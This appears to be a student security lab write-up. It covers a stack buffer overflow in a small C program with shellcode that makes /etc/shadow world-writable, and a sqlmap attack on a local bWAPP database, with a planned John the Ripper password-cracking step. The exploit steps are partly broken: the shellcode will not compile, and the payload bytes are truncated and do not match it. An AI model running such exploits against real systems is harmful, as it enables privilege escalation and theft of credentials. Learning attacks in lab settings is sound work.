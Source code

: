 # Lab-IS

# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

### Description
We will demonstrate a buffer overflow vulnerability in a C program and inject shellcode to escalate privileges by changing the permissions of /etc/shadow to 777. The approach chosen for this attack is code injection. We will compile both the vulnerable C program and the shellcode, then trigger the vulnerability to execute the shellcode.

**1. Compile the vulnerable C program**
We begin by compiling the vulnerable C program with no security protections such as stack canaries or address space layout randomization (ASLR):

``` 
    gcc -fno-stack-protector -z execstack -o vulnerable vulnerable.c
```
**Explanation:**

`-fno-stack-protector`: Disables stack protection mechanisms.

`-z execstack`: Allows the execution of code on the stack, necessary for the shellcode injection.


**2. Compile the shellcode program**

We will now compile the shellcode into an executable binary. This shellcode will execute `chmod 777 /etc/shadow`.

```
    gcc -o shellcode shellcode.c -z execstack
```

**3. Construct the malicious input**

To exploit the buffer overflow, we need to overwrite the return address of the vulnerable program's buffer with the address pointing to the shellcode.

```
    python -c 'print("A" * 20 + "\x90" * 100 + "\x48\x31\xd2...")'
```

**Explanation:**

- `"A" * 20`: Fills the buffer to the overflow point.

- `"\x90" * 100`: A NOP slide to land on the shellcode.

- The shellcode bytes, which execute `chmod 777 /etc/shadow`.

**4. Execute the attack**

Now, we run the vulnerable program with our constructed payload:

`./vulnerable $(python -c 'print("A" * 20 + "\x90" * 100 + "\x48\x31\xd2...")')`

**Output**

Once executed successfully, the permissions of /etc/shadow will be changed to 777, allowing full read, write, and execute permissions.

**Conclusion**: In this demonstration, we successfully exploited a buffer overflow vulnerability by injecting shellcode. The payload caused the chmod 777 /etc/shadow command to execute, demonstrating the privilege escalation attack.

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

- Use them command below to get information about all available databases
```
    run `python3 sqlmap.py -u "http://localhost:80/unsafe_home.php?username=test&Password=test" --dbs
```
![image](images/image1.png)
- The back-end database is: `MySQL`, it has two database is
  - infomation_schema
  - sqllab_users
**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
